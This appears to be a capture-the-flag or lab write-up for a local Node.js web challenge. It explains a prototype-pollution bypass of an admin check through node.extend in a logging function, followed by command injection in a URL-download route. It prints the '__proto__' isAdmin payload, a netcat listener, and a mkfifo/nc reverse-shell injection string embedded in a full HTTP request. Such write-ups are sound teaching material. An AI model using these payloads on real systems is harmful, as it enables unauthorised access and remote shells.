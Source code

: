 # Solution

## Recon

By opening the URL http://127.0.0.1:3333, we can see that a Singin Page has provided the following credential to log in as a guest user:

* **Username**: *guest*
* **Password**: *pass123*

So let's use them to log in and see more entry points.

![Credentials](https://i.ibb.co/gPmx1Qd/1-guest-account.png)

After signing, we can see a Url Downloader mechanism, but the guest user doesn't have permission to use this feature.

![NotAdmin](https://i.ibb.co/wQKHnMg/4-you-arenotetheadmin.png)

It's always a good idea to check what cookie the Web Site is using, in this case, after the login, the server provided the **admin_session** cookie, which is how the server knows that we are logged in as a guest.

![LogIn](https://i.ibb.co/89Xnqhx/3-login-response.png)

The cookie is apparently safe, so let's take a look at the source code.
At the source code, in the routes.js file, we can see that there is a credential DB with the guest and admin username and password. Looking with attention, you can see that the following value is set to the admin account:

```
 "isAdmin":true
```

Looking at the route **/admin/check_url** (the route used to download the URL), you can see the functions **checkLogin** and **checkAdmin**, responsible to grant or deny access to users that called this route.

![check_url](https://i.ibb.co/HHqcHFC/7-check-url-code.png)

There is a command execution after the administrative check, passing the chosen URL to the command without arguments scaping. So if we gain administrative permissions, we can easily trigger a remote command execution vulnerability.

Because it's a random string, we don't have the admin credentials, so let's take a look into the **checkLogin** and **checkAdmin** functions to see if we find a bypass.

Well, there is nothing interesting in the **checkLogin** function, since we already have a valid credential, let's look the **checkAdmin** function:

![checkAdmin](https://i.ibb.co/7WTsWmj/8-check-admin-code.png)

This function checks if the requested cookie has administrative permissions, the parameter that defines it is the `isAdmin`, that we already have noted above. But, the guest user doesn't have this permission, and this code is apparently secure, how can we bypass it? Well, let's take a deep look into the code.

Looking with attention to the **/admin/check_url** route, we can see that the developer has implemented a security log feature, defined by the **securityLog** function. This function will be trigged when a non-valid user tries to call this API.

![securityLogCall](https://i.ibb.co/L96PzGn/12e076f8-b9f3-40e4-ac53-e1474e916b64.jpg)

Looking at the function code we can see that it's using the **node.extend** function to concatenate two different JSON into the **log** variable, that will be logged with the **console.log** function.

![securityLogCode](https://i.ibb.co/djx5FxN/9-security-Log-code.png)

As well known, the **node.extend** function is vulnerable to Prototype Pollution, witch can lead to the **credentials DB** pollution, allowing to bypass the **checkAdmin** function.

## Exploit
To exploit it, we need to send the following payload with an unauthenticated user to the `/admin/check_url` route, to trigger the **security Log** function.

```
{
  "__proto__":{
    "isAdmin":true
  }
}
```

The payload above will pollute the guest credential, given him administrative permission, E.g:

* Before Pollution:

```
{"username":"guest", "password":"pass123", "cookie": "' + crypto.randomBytes(64).toString("hex") + '"}
```

* After Pollution:

```
{"username":"guest", "password":"pass123", "cookie": "' + crypto.randomBytes(64).toString("hex") + '", "isAdmin":true}
```

*Remeber to change the **Content-Type** header to **Content-Type: application/json** and to remove the **admin_session**.*

* **Payload Request**:

![payloadRequest](https://i.ibb.co/RGnhyd0/17-is-Admintrue.png)


Now, if we make a request with the guest cookie again, you can see that we successfully bypass the **checkAdmin** function.

* **Request After Pollution**:

![requestAfterPollution](https://i.ibb.co/ZGR1HsR/18-after-polluted.png)

![afterPollution](https://i.ibb.co/mC2zwTP/19-after-bypass.png)

## Remote Command Execution and Reverse Shell

As commented above, we already find a Remote Command Execution vulnerability because the passed URL is being used as a command without argument scaping, vulnerable code bellow:

![vulnCode](https://i.ibb.co/SKgzSss/f4002b85-a445-45b1-8a9a-4a1f86361f3e.jpg)

To exploit it, we just need to add a shell command to the URL. So let's make a reverse shell!

First, let's wait for a connection on port 4444 with Netcat:

```
nc -lvp 4444
```

![netCat](https://i.ibb.co/5cQR3Mt/20-nc-lvp.png)

Now let's insert the following payload in the URL parameter to make the reverse shell on 127.0.0.1:4444:

````
;`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 4444 >/tmp/f` #
````

* **The Final Payload (Remote Code Execution with the Reverse Shell)**:

```
POST /admin/check_url HTTP/1.1
Host: 127.0.0.1:3333
Connection: keep-alive
Content-Length: 96
User-Agent: Mozilla/ (X11; Linux x86_64) AppleWebKit/ (KHTML, like Gecko) Chrome/
Content-type: application/json
Accept: */*
Origin: http://127.0.0.1:3333
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Referer: http://127.0.0.1:3333/admin?
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: admin_session=5f4863e522da99e347045bc4d6343a6d55ead1974b68ac7ac6d2c8cdb5d7bcb846a09442b4bef21447910e612d99506eaf5ffba4c381cb38fb0c4ff5abc37f54

{
 "url":";`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 4444 >/tmp/f` #"
}
```

How you can see in the picture below, we successfully got a reverse shell on the target:

![final](https://i.ibb.co/T24wMML/21-payload.png)
